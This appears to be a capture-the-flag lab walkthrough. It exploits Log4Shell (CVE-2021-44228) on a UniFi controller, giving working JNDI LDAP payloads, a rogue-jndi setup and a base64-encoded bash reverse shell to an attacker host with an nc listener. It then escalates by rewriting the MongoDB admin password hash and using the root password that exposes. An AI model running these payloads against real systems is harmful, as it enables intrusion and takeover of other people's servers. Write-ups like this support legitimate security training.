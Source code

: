 scanning this box identified multiple ports,
going to the website 1 stood out,
8080 redirected to 8443

this was a login with a unify admin page with version 6.4.54,
searching for exploits for this version,
found an cve: CVE-2021-44228

capturing a login request
and tryign a payload to see if it works
${jndi:ldap://{hack_box_ip}/whatever}

capturing with `tcpdump -i tun0 port 389` showed us we got an ldap request from the box
and in burp we see `api.err.InvalidPayload`

with the cve there was an exploit, setting it up:
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package

this launches some rogue ldap server,
abusing a log4j vulnerability

the_hash=$(echo 'bash -c "bash -i >& /dev/tcp/{hack_box_ipp}/4444 0>&1"' | base64)
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,$the_hash}|
{base64,-d}|{bash,-i}" --hostname "{hack_box_ip}"

altough the payloads setsup a reverse shell,
we still need to launch our listener:
nc -lvp 4444

going back to burpsuite,
and sending the next payload:
${jndi:ldap://{hack_box_ip}:1389/o=tomcat}

after this primitive shell
lets run a better shell:
script /dev/null -c bash

ls /home
ls /home/michael
cat /home/michael/user.txt


after this we have acces to the user,
but we need to escalate to root,
and we find a mongodb running:
ps aux | grep mongo

using the following commands to find and replace passwords:

with this we find the admin user and its details:
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

this will get us a new password hash
and should be run in our own shell:
mkpasswd -m sha-512 Password1234

and then we can update the password hash:
mongo --port 27117 ace --eval 'db.admin.update({"_id": {administrator_id}},{$set:{"x_shadow":"{new_password_hash}"}})'

and use administrator:Password1234 to login on the site
after loging in we can find the root password in settings>site


and login with root:{found_password} with ssh and get the root flag